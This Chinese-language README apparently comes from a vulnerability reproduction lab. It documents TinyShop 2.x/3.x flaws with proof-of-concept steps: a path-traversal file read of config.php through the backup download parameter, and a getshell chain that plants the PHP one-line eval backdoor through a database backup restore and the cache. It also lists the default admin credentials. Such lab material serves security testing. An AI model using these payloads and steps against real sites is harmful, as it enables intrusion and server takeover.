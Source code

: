 ## 特殊说明

默认后台地址为 `http://127.0.0.1/index.php?con=admin&act=login`，账号密码为 `admin:admin123`

## TinyShop 2.4 任意文件读取漏洞

测试镜像

* src/tinyshop/2.4

影响版本

* TinyShop 2.x

参考链接

* [TinyShop缓存文件获取WebShell](http://www.freebuf.com/vuls/161409.html)

Poc

1. 进入后台 -> 数据库管理 -> 数据库备份 页面，e.g `http://127.0.0.1/index.php?con=admin&act=tables_list`
2. 备份任意数据库
3. 通过 `back` 参数下载任意文件，e.g

   ```
   http://127.0.0.1/index.php?con=admin&act=down&back=../../protected/config/config.php
   ```

## TinyShop 2.x/3.x 缓存getshell

测试镜像

* src/tinyshop/3.0

影响版本

* TinyShop 2.x/3.x

参考链接

* [TinyShop缓存文件获取WebShell](http://www.freebuf.com/vuls/161409.html)

Poc

1. 进入后台->内容管理->全部帮助，选择任意一条记录，编辑该记录，在其内容中添加一句话后门代码`<?php @eval($_POST[cmd]);?>`并保存

2. 备份数据库中的帮助表，在“系统设置”-“数据库备份” 数据库表中选择包含help的表，在本例中为tiny_help的表，选择后在数据库备份中进行备份。

3. 下载备份的数据库表sql文件，将其中的一句话代码被html转义的部分修改回原样

4. 在“系统设置”-“数据库还原”-“导入”，选择已经修改过的sql文件，选择“上传”，文件上传后会自动还原数据库。     

5. 清理缓存，单击“系统设置”-“安全管理”-“清除缓存”，选择清除所有缓存。

6. 访问页面，在浏览器中随机访问其帮助文件中的列表来生成缓存，例如“用户注册协议”的地址：

`http://172.17.0.2/index.php?con=index&act=help&id=14`

7. 访问对应缓存文件获取shell

`http://172.17.0.2/cache/368/501/4461.php`





